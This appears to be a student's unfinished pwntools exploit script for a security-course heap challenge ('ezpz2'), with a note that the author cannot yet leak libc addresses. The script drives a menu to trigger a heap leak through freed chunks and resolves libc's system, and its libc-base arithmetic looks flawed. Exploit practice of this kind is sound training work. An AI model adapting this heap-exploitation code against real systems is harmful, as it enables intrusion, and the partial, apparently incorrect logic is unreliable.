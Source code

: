 4. However, I couldn't seem to figure out how to leak libc addresses from heap. 

------------------ 
```
from cle import ELFCore
from pwn import *

p = process("./ezpz2")
libc = ELF("/lib/i386-linux-gnu/libc.so.6", checksec=False)

# host = "comp6447.wtf"
# port = 11264 
# p = remote(host, port)

got_printf = 0x0804c010
log.info(f"got printf address: {hex(got_printf)}")

libc_printf = libc.symbols["printf"]
log.info(f"libc printf address: {hex(libc_printf)}")

libc.address = got_printf - libc_printf
system = libc.symbols["system"]
log.info(f"system address: {hex(system)}")

p.recvlines(18)
p.sendline(b'C')

p.recvlines(9)
p.sendline(b'C')

p.recvlines(9)
p.sendline(b'D')
p.sendline(b'0')

p.recvlines(8)
p.sendline(b'D')
p.sendline(b'1')

p.recvlines(8)
p.sendline(b'A')
p.sendline(b'1')

p.recvline()
p.recvuntil(b": '")
leak = u32(p.recv(4))
log.info(f"heap leak: {hex(leak)}")

p.recvlines(8)
p.sendline(b'D')
p.sendline(b'0')

p.recvlines(8)
p.sendline(b'D')
p.sendline(b'0')

p.recvlines(8)
p.sendline(b'C')

p.recvlines(9)
p.sendline(b'C')

p.recvlines(8)
p.sendline(b'D')
p.sendline(b'3')
```
